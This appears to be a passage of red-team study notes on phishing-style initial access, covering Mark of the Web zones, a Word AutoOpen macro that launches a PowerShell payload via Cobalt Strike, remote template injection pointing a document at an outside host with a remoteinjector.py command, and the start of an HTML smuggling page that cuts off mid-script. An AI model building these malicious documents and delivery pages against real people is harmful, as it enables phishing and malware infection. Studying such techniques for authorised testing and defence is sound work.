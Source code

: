 > One significant difference (apart from how you dress it up to the user), is that any file downloaded via a browser (outside of a trusted zone) will be tainted with the "Mark of the Web" (MOTW).

```powershell
## Get Zone data of file
Get-Content .\test.txt -Stream Zone.Identifier
```
The possible zones are:

- 0 => Local computer
- 1 => Local intranet
- 2 => Trusted sites
- 3 => Internet
- 4 => Restricted sites

#### VBA Shell

> Cobalt Strike > Attacks > Scripted Web Delivery > Select Payload 

```vb
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell payload here"

End Sub
```

*You save the doc `as .doc` ~~not .docx or .docm~~*

##### Remote Template Injection

Remote Template Injection is a technique where an attacker sends a benign document to a victim, which downloads and loads a malicious template.

1. Save the document as a dot file
2. 7Zip > Open archive.  Navigate to word > _rels, right-click on settings.xml.rels and select Edit.
3. Change `Target=` to `Target="http://nickelviper.com/template.dot"`

or use this tool

```bash
python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx
```

#### HTML Smuggling

```bash
cat file | base64
# And modify the file variable and the fileName
```

```html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

```